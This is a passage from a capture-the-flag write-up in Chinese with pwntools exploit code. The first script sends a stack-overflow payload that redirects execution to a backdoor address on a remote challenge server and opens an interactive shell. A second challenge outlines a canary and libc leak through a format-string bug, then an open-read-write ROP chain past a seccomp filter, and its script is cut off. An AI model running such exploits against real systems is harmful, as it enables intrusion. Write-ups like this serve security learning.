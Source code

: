 ```python

context.log_level = 'debug'

local = False

if local:

p = process('./1')

pwnlib.gdb.attach(p, 'b main')

else:

p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')

  

backdoor = 0x40115a

payload = b'a' * (0xa + 8) + p64(backdoor)

p.send(payload)

p.interactive()
```
shell:
![[Pasted image 20250121161101.png]]

# sandbox
一道简单的`orw`类型题目。
`seccomp`后可以看到只禁用了`execve`。
![[Pasted image 20250121161542.png]]
可以构造最普通的`orw`。
![[Pasted image 20250121161640.png]]
![[Pasted image 20250121161654.png]]
可以看见开启了`canary`，有栈溢出和格式化字符串漏洞，那么先用格式化字符串漏洞泄漏`canary`和`libc`的基址，然后构造`ROP`类型的`orw`即可泄漏`./flag`的数据。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = True

if local:

p = process('./attachment')

pwnlib.gdb.attach(p, 'b func')

else:

# p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')

```